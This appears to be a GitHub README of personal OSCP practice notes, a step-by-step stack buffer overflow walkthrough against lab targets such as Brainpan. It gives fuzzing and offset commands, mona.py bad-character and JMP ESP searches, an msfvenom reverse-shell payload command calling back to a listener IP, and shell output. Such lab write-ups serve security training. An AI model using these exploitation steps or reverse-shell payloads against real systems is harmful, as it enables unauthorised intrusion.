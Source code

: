 # OSCP-BUFFER-OVERFLOW-PREP
This Repositry has my own practice notes of Buffer overflow Vulnrable Machine in easy,Beginer way.

If You have fear of buffer overflow, then i'll say bro just chill it is easy. Make some practice.
you have to follow som steps to get the shell of victim host.
Brainpain,VulnServer,Ftp.....and more comming soon
Be Connected Thank you!!


The very firs step is to getting the crash byte after knowing the host and port,vuln param 
of the server.....


1) So for the Any binary we have to fuzz from 100 to Untill crash the program,
   To do so first we have to find out which input parameter of the is vulnrable to overflow.
   Then find out the crash byte of the program by fuzzing the parameter.
 
   

2) creating offset value. with msf 
   > msf-pattern_create -l 3000
   where 3000 is Crash byte of the program
 
   After getting the crash byte we have to control the intruction pointer
   to do this we'll use the msf venome 

3) msf-pattern_offset -l 3000 -q 35724134 (this is value of eip)

    output- [*] Exact match at offset 524 


4) after getting the offset value wee need to perform the overflow with some 
   more thing 
   now we have offset=524
   eip="B" * 4 (this will always contain the eip )
   shellcode= "C"* 400 (this is the space where the stack in buffer fill with s   shell code )

5) Creating the working dir in im-debug
   !mona config -set workingfolder c:\logs\%p

 Now next is to finding the bad char with the help of all possible hex

6) to do this we have to create an array with mona.py to compair with out paylod

   !mona bytearray -b '\x00'

   send the payload 

7) now we have to verify if ther's any badchar....
    !mona compare -f C:\logs\brainpan\bytearray.bin -a 005FF910
   if the result is normal then ther's only one badchar "/x00"

Now we have to find the jump esp location 

8) check if there is any module that is true by os
   !mona modules 
   ther's a module brainpain.exe

9) to get the jump statment have to perform this command

   !mona find -s "\xff\xe4" -m baianpan.exe
   this will retun the address of jump eip
   save the jump eip 311712f3 set this eip in payload as
   eip=eip= '\xf3\x12\x17\x31'


10) setting the break point to check does it working or not 
    bp 0x311712f3
    to verify the break point is set view>view breakpoint>

11) Now set the  eip to  and try run again the payload 
    this will pass the program and jump to our brekpoint now 
    when resume the program it will retrun to shellcode that we given as payld

12) Creating the reverse shell code with the help of the msfvenome
     msfvenom -p windows/shell_reverse_tcp LHOST=192.168.43.132 LPORT=1234 -b '\x00' -f c

where(-b is bad character and -f c is the revershell in c language

13) And add the nops valu (I'm using this because maybe control jump by leaving 8 or 16 bytes after the shell code)

nops='\x90' * 10

14) add the nops to our payload before the shellcode value and start the listening on our side....

15) after the sending the shell the im_debug will pause so we have to tap on play again .....boom we got the shell

C:\Users\Saimson\Downloads>

C:\Users\Saimson\Downloads>whoami
whoami
desktop-hup6j62\saimson 


